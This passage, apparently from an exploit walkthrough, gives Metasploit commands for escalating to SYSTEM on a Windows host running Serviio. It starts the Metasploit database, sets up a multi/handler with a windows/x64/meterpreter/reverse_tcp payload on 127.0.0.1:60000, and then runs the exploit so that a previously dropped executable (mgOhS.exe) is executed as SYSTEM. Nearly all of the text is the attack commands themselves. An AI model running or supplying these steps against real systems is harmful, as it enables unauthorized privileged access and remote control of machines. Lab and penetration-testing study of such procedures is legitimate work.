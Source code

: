 SHELL 2:
```
sudo msfdb run
```

Start a generic payload handler.  This payload handler has to match what was used for the original serviio exploit , since we will be running the existing `C:\ Progra ~1\ Serviio\bin\mgOhS.exe` executable as system.

Start a generic payload handler.
```
use exploit/multi/handler
```

```
set PAYLOAD windows/x64/meterpreter/reverse_tcp
```

```
set LHOST 127.0.0.1
```

```
set LPORT 60000
```

```
run
```

SHELL 1:
```
exploit
```
